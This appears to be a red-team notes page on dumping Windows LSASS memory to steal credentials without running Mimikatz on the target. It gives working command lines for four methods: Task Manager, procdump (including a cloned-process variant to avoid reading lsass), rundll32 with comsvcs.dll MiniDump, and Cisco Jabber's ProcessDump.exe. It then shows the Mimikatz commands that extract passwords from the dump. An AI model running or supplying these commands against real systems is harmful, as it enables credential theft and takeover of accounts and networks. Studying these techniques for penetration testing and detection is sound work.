 ```yaml
---
layout: post
title: "dump credentials from lsass process without mimikatz"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


# Dumping Lsass Without Mimikatz

## MiniDumpWriteDump API

See my notes about writing a simple custom process dumper using `MiniDumpWriteDump` API:

{% content-ref url="dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md" %}
[dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md](dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md)
{% endcontent-ref %}

## Task Manager

Create a minidump of the lsass.exe using task manager (must be running as administrator):

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-55-27.png>)

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-56-12.png>)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-54-15.png>)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-11-28.png>)

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-13-25.png>)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](<../../.gitbook/assets/image (165).png>)

## ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber (always?) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:

```
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

![screenshot by @em1rerdogan](<../../.gitbook/assets/image (634).png>)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}
@spotheplanet

